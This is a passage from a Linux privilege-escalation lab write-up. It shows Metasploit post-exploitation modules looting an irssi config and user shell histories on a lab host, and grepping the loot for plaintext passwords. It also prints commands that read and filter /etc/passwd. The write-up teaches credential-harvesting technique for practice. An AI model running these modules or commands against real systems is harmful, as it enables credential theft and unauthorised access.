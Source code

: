 ```
[!]  * incompatible session type: meterpreter
[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found IRC password(s) of password321 in irssi config at /home/user/.irssi/config
[+] irssi config with passwords stored in /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt

$ sudo cat /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
```

### 2.3 - History

```
meterpreter > run post/linux/gather/enum_users_history

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[-] Failed to open file: /home/user/.ash_history: core_channel_open: Operation failed: 1
[+] bash history for TCM stored in /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt
[-] Failed to open file: /home/user/.csh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.ksh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.sh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.tcsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.zsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.mysql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.psql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.dbshell: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.viminfo: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/sudoers: core_channel_open: Operation failed: 1
[+] Last logs stored in /root/.msf4/loot/20220523132500_default_10.10.198.41_linux.enum.users_618604.txt

$ sudo cat /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
```

## References

- [Privilege Escalation Drives](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#drives)

- [Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#passwd-shadow-files)

- [Linux Var Log Files](http://www.thegeekstuff.com/2011/08/linux-var-log-files/)

- [Linux Privilege Escalation Checklist](https://steflan-security.com/linux-privilege-escalation-checklist/)
